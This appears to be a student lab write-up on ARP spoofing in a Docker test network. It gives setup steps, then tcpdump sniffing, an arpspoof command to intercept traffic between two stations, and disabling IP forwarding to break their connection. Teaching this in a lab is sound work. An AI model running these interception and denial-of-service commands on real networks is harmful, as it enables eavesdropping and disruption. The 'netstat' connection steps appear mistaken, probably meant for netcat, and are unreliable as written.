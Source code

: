 # Lab 1 - ARP Spoofing

### Environment setup

Setup the controlled environment in which the attack will be simulated.

1. Clone the git repo: 
    
        git clone https://github.com/mcagalj/SRP-2021-22

2. Enter the directory:
        
        cd SRP-2021-22/arp-spoofing
    
3. Starting docker containers:
    
        ./start.sh
    
4. Enter docker container with an interactive terminal:
    
        docker exec -it <container-name> bash
    
5. Check if the network between containers is up (from station-1):
    
        ping station-2
    
6. Find IP and MAC addresses of each docker container:
    
        ifconfig -a

    **station-1:**
    
        IP: 172.22.0.2
        
        MAC: 02:42:ac:16:00:02
    
    **station-2:**
    
        IP: 172.22.0.4
        
        MAC: 02:42:ac:16:00:04
    
    **evil-station:**
    
        IP: 172.22.0.3
        
        MAC: 02:42:ac:16:00:03
    

### Emulating a 'real' situation

Emulation of a conversation between two computers, in our case containers on the same docker virtual network.

1. To open connection between **station-1** and **station-2**:
    
    On **station-2**: 
    
        netstat -l -p 8000
    
    **station-2** behaves like a server listening for connections
    
    On **station-1**: 
    
        netstat station-2 8000
    
    **station-1** behaves like a client requesting to connect to **station-2**
    

### Attack

In the controlled environment that was set up, emulate an attack.

1. Listen traffic on **eth0** (network on which all containers are connected on) on **evil-station**:
    
        tcpdump
    
2. Perform ARP spoofing:
    
        arpspoof -t station-1 -r station-2
    
3. To filter `tcpdump` output:
    
        tcpdump -XA station-1 and not arp
    
4. DOS between **station-1** and **station-2**:
    
        echo 0 > /proc/sys/net/ipv4/ip_forward
    
    Stop IP forwarding from **evil-station** to **station-2 →** results in messages not being forwared to **station-2,** also consequently TCP connection breaks down since **station-1** can't send ACK signal to **station-2**
